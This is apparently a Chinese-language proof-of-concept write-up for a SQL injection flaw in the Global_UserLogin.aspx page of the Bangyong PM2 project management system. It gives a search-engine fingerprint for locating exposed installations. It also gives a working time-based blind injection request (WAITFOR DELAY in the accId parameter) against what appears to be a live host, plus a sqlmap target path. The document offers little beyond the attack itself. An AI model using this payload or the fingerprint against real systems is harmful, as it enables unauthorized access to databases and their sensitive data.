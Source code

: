# 邦永PM2项目管理系统Global_UserLogin.aspx SQL注入漏洞

# 一、漏洞简介
邦永PM2项目管理系统Global_UserLogin.aspx SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 邦永PM2项目管理系统

# 三、资产测绘
+ hunter`web.body="PM2项目管理系统BS版增强工具.zip"`
+ 特征

![1701347452885-d3cea2a7-432e-40cc-9a7d-3f38f56de6e5.png](./img/rcZ2NB48Dm1SUHjI/1701347452885-d3cea2a7-432e-40cc-9a7d-3f38f56de6e5-486911.png)

# 四、漏洞复现
```plain
GET /Global/Global_UserLogin.aspx?accId=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: pm2.sunwayopto.cn:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1701348148996-78c9e2ba-9e67-47d4-9660-f03ef1fc5448.png](./img/rcZ2NB48Dm1SUHjI/1701348148996-78c9e2ba-9e67-47d4-9660-f03ef1fc5448-854696.png)

sqlmap

```plain
/Global/Global_UserLogin.aspx?accId=1
```

![1701348163542-81132564-5077-4727-9372-c4579e401148.png](./img/rcZ2NB48Dm1SUHjI/1701348163542-81132564-5077-4727-9372-c4579e401148-428762.png)



> 更新: 2024-02-29 23:55:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vcx1cgrng7y325mg>